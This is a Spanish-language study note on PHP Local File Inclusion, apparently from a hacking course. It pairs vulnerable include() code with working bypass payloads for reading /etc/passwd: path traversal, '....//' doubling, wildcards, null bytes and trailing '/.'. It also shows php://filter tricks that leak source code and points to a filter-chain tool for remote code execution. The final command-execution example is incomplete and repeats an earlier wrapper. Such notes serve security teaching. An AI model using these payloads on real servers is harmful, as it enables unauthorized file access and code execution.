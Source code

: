 # Local File Inclusion (LFI)

Tags: #LFI #OWASP #Explotacion 

La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir “**../**” en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

Para prevenir los ataques LFI, es importante que los desarrolladores de aplicaciones web validen y filtren adecuadamente la entrada del usuario, limitando el acceso a los recursos del sistema y asegurándose de que los archivos sólo se puedan incluir desde ubicaciones permitidas. Además, las empresas deben implementar medidas de seguridad adecuadas, como el cifrado de archivos y la limitación del acceso de usuarios no autorizados a los recursos del sistema.

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

-   **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)


## Metodos de poder hacer un LFI en los diferentes codigos y sanitizaciones.

Con un LFI podemos no solo cargar archivos que agreguemos la ruta de la pagina, si no tambien cambiar y ver otras rutas en la pagina web.
* **/var/www/html** Ruta de default

Un LFI sin sanitizar
```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```
Para este codigo sin sanitizar podemos hacer lo siguiente en la **web** y asi cargariamos un archivo:
* **index.php?filename=/etc/passwd**


Con el codigo sanitizado evitamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	include("/var/www/html/" . $filename); 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
```
Si colocamos lo mismo de  **index.php?filename=/etc/passwd** en la ruta final obtendriamos:
**/var/www/html//etc/passwd** -> Por lo que esa ruta no exites y no nos daria nada. 
Pero podriamos hacer un **Directory Path Traversal** en la **web** de la siguiente manera:
* **index.php?filename=../../../../../etc/passwd** y asi burlar la sanitizacion ya que tendriamos un **/etc/passwd**


Sanitizando de nuevo el codigo evitariamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	include("/var/www/html/" . $filename); 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
	// str_replace = Donde vea ../ lo convierta a nada 
```
Si hacemos de nuevo un Directory Path Traversal de la manera normal obtendriamos lo siguiente:
**/var/www/html/../../../../../etc/passwd** -> /var/www/htmletc/passwd Y esa ruta no existe
Pero podriaos burlar esa sanitizacion en la **web** colocandolo de manera doble.
* **index.php?filename=....//....//....//....//....//etc/passwd** y como resultado final tendriamos **/etc/passwd**


Sanitizando de nuevo el codigo con expresiones regulares evitariamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	
	if(preg_match("/\/etc\/passwd/", $filename) === 1){
		echo "\n[+] No es posible visualizar el contenido de este archivo\n";
	} else {
		include("/var/www/html/" . $filename);
	} 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
	// str_replace = Donde vea ../ lo convierta a nada 
	// preg_match = Lo que haga match que seria /etc/passwd, entraria al bucle y no mostraria el contenido 
```
Para poder burlar este tipo de sanitizacion podemos colocar este tipo de input **/etc/././././passwd**, **/etc///passwd**, 
Pero podriaos burlar esa sanitizacion en la **web** colocandolo mas barras despues del etc o barra y punto.
* **index.php?filename=....//....//....//....//....//etc/////passwd** y obtendriamos como resultado **/etc/passwd**
* **index.php?filename=....//....//....//....//....//etc/./././passwd** y obtendriamos como resultado **/etc/passwd**
Tambien podemos utilizar interrogantes y el sistema nos buscara aun asi el archivo:
* **index.php?filename=....//....//....//....//....//e??/./././pa???d** y obtendriamos como resultado **/etc/passwd**


Sanitizando de nuevo el codigo forzando a que busque un archivo .php en la ruta 
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	
	include("/var/www/html/" . $filename . ".php");
?>

	// . = Concatenar
```
Esto funciona para las versiones de **PHP menor a la 5.3.8** y lo que podemos hacer para evitar esa extencion es agregar un **NULL BYTE** en la **web** de la siguiente manera:
Donde **%00 -> \\0** 
* **index.php?filename=....//....//....//....//....//etc/passwd%00** y obtendriamos como resultado **/etc/passwd**
Cuando exista una sanitizacion por numero de caracteres como los ultimos 6 (passwd) o por los ultimos 4 (.txt). Podemos hacer lo siguiente:
Podriamos agregar un **/.** al final y asi podriamos burlar la sanitizacion. 
* **index.php?filename=....//....//....//....//....//etc/passwd/.** y obtendriamos como resultado **/etc/passwd**
* **index.php?filename=....//....//....//....//....//tmp/test.txt/.** y obtendriamos como resultado el archivo **test.txt**

----

Tambien podemos emplear **Groupers** en la url de la Web:
Este nos ayuda a apuntar a un recurso **(index.php, secret.php, etc...)** y despues mediante una conversion representarlo en base64
* index.php?page=**php://filter/convert.base64-encode/resource=index.php** y obtendriamos como resultado el index.php pero en base64, despues colocamos el resultado en un archivo **data**
```bash
❯ cat data | base64 -d | sponge data                             # Sponge = Colocar el output decodificado en el mismo archivo
```

```bash
❯ echo -n "ihst98htar78htrs8697hstrhyu8tr" | base64 -d; echo     # Si la cadena es pequena, podemos mostrar el contenido en la pantalla
```


Otro **Groupers** que podemos usar en la web es el siguiente:
Este nos ayuda a rotar cada caracter en 13 posiciones
* index.php?page=**php://filter/read=string.rot13/resource=secret.php** y obtendriamos como resultado algo raro que es el resultado pero rotado 13 caracteres y pegamos el resultado en un archivo **data**
```bash
❯ cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]' # tr = Nos ayudara a rotar de nuevo las 13 posiciones, empezando por la letra que nos arroje el output (Siempre cambian) 

	# Empezamos por la letra que nos arroje el output
	# Despues completamos para llegar a la z 
	# Terminamos colocando lo que falta del abcedario
	# Lo volvemos a hacer pero ahora en mayuscula
	# La ultima instruccion es para rotar empezando por la p de 'php'
```


Otro **Groupers** que podemos usar en la web es el siguiente: 
Este nos ayudaria convertir de UTF-8 a UTF-16:
* index.php?page=**php://filter/convert.iconv.utf-8.utf-16/resource=secret.php** y obtendriamos como resultado que nos muestre el resultado por la web ya que no lo esta 'interpretando'.


Otro **Groupers** que podemos usar en la web es el siguiente:
Este nos ayudara a ejecutar comandos
* index.php?page=**php://filter/convert.iconv.utf-8.utf-16/resource=secret.php** y obtendriamos como resultado


